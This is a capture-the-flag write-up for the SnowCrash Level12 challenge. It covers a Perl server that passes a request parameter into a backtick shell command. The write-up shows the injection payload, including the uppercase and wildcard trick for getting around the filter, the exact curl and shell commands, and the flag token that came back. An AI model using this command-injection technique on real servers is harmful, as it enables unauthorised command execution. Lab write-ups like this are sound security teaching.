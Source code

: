 # Level12


This `perl` script is a server listening on port `4646`. 
There are two parameters `x` and `y`. `x` parameter is modified and used.  

Each char of this parameter is uppercased using [binding operator](https://perldoc.perl.org/perlop#Binding-Operators). The parameter is also split when a space is find.  
For example: `x="hello world"`
After the changement, x will be: `HELLO`

```perl
$xx =~ tr/a-z/A-Z/; 
$xx =~ s/\s.*//;
```

We have this line in which a grep is execute to get line in `/tmp/xd`. If the line match with `x` it's return in `output`.  

```perl
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```

So we can try to close the backtip to execute our command/script.  
So the payload will be:  

```bash
curl 127.0.0.1:4646?x='`OURSCRIPT`'
```
We must close the backtip and open-it after our command/script.  

Because space and lower char are modified we must write a script file with our script.
Using of `wildcard` is required because of the directory in which we can write is `tmp`, a name with only lower case.  

```bash
level12@SnowCrash:~$ echo "/bin/getflag | wall" > /tmp/SCRIPT
level12@SnowCrash:~$ chmod a+x /tmp/SCRIPT
level12@SnowCrash:~$ curl 127.0.0.1:4646?x='`/*/SCRIPT`'
                                                                               
Broadcast Message from flag12@Snow                                             
        (somewhere) at 7:27 ...                                                
                                                                               
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
